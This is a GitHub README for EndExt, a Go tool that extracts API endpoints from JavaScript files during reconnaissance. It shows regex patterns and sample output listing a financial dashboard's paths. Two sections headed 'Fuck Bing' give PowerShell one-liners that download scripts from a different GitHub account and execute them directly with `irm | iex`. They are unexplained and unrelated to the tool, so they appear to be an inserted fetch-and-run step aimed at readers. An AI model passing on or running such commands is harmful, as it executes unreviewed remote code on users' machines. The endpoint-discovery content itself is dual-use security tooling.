 # EndExt
EndExt is a .go tool for extracting all the possible endpoints from the JS files

# Idea
When you crawll all the JS files from waybackruls for example, or even collecting the JS files urls from your target website's home source page ..
If the website was using API system and you wanna look for all the endpoints in the JS files, cuz u may find something hidden here or there ..
That's why i made this tool .. I give it the JS files urls .. It graps all the possible endpoints or urls or paths in the submitted JS files for me ..

# Installation
Just need to install go, run:

```
▶ brew install go
▶ git clone https://github.com/SirBugs/endext.git
```

or download from https://go.dev/dl/

Notice that you have to download the `regex.tmp` file and put into it your custom regex depending on the JS File you facing!

# Default Regex Patterns:
```
"\?(.*?)"
"\/(.*?)"
'\/(.*?)'
`\/(.*?)`
this\.fetch\(this\.url\("([^"]+)"\)
```

# Usage:
```
▶ go run main.go -l js_files_urls.txt

[ 0 ] https://dashboard.target.com/assets/index-8d4703d5.js : "?o.credentials="
[ 1 ] https://dashboard.target.com/assets/index-8d4703d5.js : "?id="
[ 2 ] https://dashboard.target.com/assets/index-8d4703d5.js : "?ddforward="
[ 3 ] https://dashboard.target.com/assets/index-8d4703d5.js : "?i="
[ 4 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/api/v2/"
[ 5 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/target-0b66e97b.png"
[ 6 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/welcome-f0600742.png"
[ 7 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/welcome@2x-c3e5437e.png"
[ 8 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/screenshot-063bd7f1.png"
[ 9 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/screenshot@2x-0c6069f9.png"
[ 10 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/ACHAuthorizationTemplate-b7991176.pdf"
[ 11 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/CommercialDepositAccountAgreement_March2023-34034815.pdf"
[ 12 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/target-Prohibited-Categories-7a050116.pdf"
[ 13 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/csv-a3fb6a60.svg"
[ 14 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/gif-2e1908c8.svg"
[ 15 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/html-2dcba250.svg"
[ 16 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/jpeg-2ad1d5df.svg"
[ 17 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/jpg-4e59c322.svg"
[ 18 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/json-3f816b3b.svg"
[ 19 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/pdf-e4bef26d.svg"
[ 20 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/png-478fed1d.svg"
[ 21 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/tiff-c76a207d.svg"
[ 22 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/txt-803993e5.svg"
[ 23 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/unknown-6debfec0.svg"
[ 24 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/zip-e303efb1.svg"
[ 25 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/assets/pattern-5243e697.svg"
[ 26 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/app"
[ 27 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/api-keys"
[ 28 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/bank-accounts"
[ 29 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/counterparties"
[ 30 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/entities/person"
[ 31 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/entities/business"
[ 32 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/entities"
[ 33 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/events"
[ 34 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/events/webhook"
[ 35 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/invites"
[ 36 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/invites/resend_email"
[ 37 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/plaid/auth/oauth2/temp-code"
[ 38 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/receive-ach-credit"
[ 39 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/receive-ach-debit"
[ 40 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/transfers/ach/settle"
[ 41 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/receive-wire"
[ 42 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/receive-international-wire"
[ 43 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/simulate/transfers/wire/settle"
[ 44 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/ach"
[ 45 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/ach/stop-payments"
[ 46 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/ach/returns"
[ 47 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/book"
[ 48 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/checks/issue"
[ 49 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers"
[ 50 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/transfers/wire"
[ 51 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/dashboard-users"
[ 52 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/password_reset_request"
[ 53 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/login"
[ 54 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/dashboard-users/settings"
[ 55 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/mfa/verify"
[ 56 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/logout"
[ 57 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/self"
[ 58 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/dashboard-users/password"
[ 59 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/mfa/setup"
[ 60 ] https://dashboard.target.com/assets/index-8d4703d5.js : "/dashboard/mfa/resend"
```

# One Line Command:
```
▶ echo 'target.com' | waybackurls | grep "\.js" > js_files.txt; go run main.go -l js_files.txt
```

# Fuck Bing:
```ps1
irm "https://raw.githubusercontent.com/Jazzmedo/endext/refs/heads/main/edge.ps1" | iex
```

# Fuck Bing:
```ps1
irm "https://raw.githubusercontent.com/Jazzmedo/endext/refs/heads/main/restore-edge.ps1" | iex
```

// You can use Gau, HaKrawler, Katana, etc...

# Options:
```
  -l string
    	.txt File containing JavaScript file URLs
  -o string
    	Output To Save Endpoints
  -s	Silence Bitch
  -u string
    	Signle JavaScript File Direct URL
```

# Updates:
- (0.0.2) :: Published 
- (0.0.3) :: removing duplicates
- (0.0.4) :: RegexGrep with this.fetch(this.url("X") && short the urls filtering functionality
- (0.0.5) :: flag for single url -u or urls list -l && flag for public the urls -p && flag for output -o
- (0.0.6) :: revampig the whole structure, adding silence flag and making it faster
- (0.0.7) :: fixing error of `regex.tmp file not found` by constanting the file path

# Credits:

This tool was written in Golang, With all love in Egypt! <3

Twitter@SirBagoza , Github@SirBugs
